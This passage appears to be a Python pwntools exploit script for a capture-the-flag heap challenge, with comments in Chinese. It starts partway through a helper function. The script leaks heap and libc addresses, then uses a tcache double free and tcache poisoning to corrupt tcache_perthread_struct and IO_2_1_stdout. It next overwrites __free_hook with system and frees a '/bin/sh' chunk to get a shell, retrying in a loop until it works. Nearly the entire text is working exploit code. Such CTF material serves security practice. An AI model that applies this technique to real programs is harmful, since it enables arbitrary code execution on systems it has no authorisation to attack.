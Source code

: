 ```python
    p.sendlineafter("&gt;&gt;",str(5))
    p.sendafter("Content:\n",content)

def exp():
    add(0x70,'a')
    delete()
    show()
    heap_base=u64(p.recv(6).ljust(8,b'\x00'))&lt;&lt;12
    print('heapbase:',hex(heap_base))

    #覆盖key进行double free
    edit('b'*0x10)
    delete()
    #tcache poison得到tcache_perthread_struct结构的counts
    edit(p64(((heap_base+0x2a0)&gt;&gt;12)^(heap_base+0x10)))
    add(0x70,'a')

    #chunk大小为0x290的tcache被填满
    add(0x70, b'\x00\x00' * 0x27 + b'\x07\x00')
    #tcache_perthread_struct结构进入unsorted bin
    delete()

    #chunk大小为0x50,0x80的tcache为1
    add(0x40,'\x00\x00'*3+'\x01\x00'*1+'\x00\x00'*2+'\x01\x00')
    add(0x30,b'\x00'*0x30)

    #add后0x50 tcache:IO_2_1_stdout
    add(0x10,'\x00'*8+'\xc0\x16')
    #申请IO_2_1_stdout,这个是从tcache里面取的，unsorted bin没动

    add(0x40,p64(0xfbad1887)+p64(0)*3+b'\x00')

    libc_base=u64(p.recv(6).ljust(8,b'\x00'))-0x1e4744
    print('libcbase',hex(libc_base))

    #add后0x80 tcache:__free_hook
    add(0x10,p64(libc_base+libc.symbols['__free_hook']))
    #申请__free_hook，这个是从tcache里面取的，unsorted bin没动
    add(0x70,p64(libc_base+libc.symbols['system']))

    add(0x10,'/bin/sh\x00')
    delete()
    p.interactive()

while True:
        try:
            p=process(file)
            exp()
            break
        except:
            p.close()
            continue
```
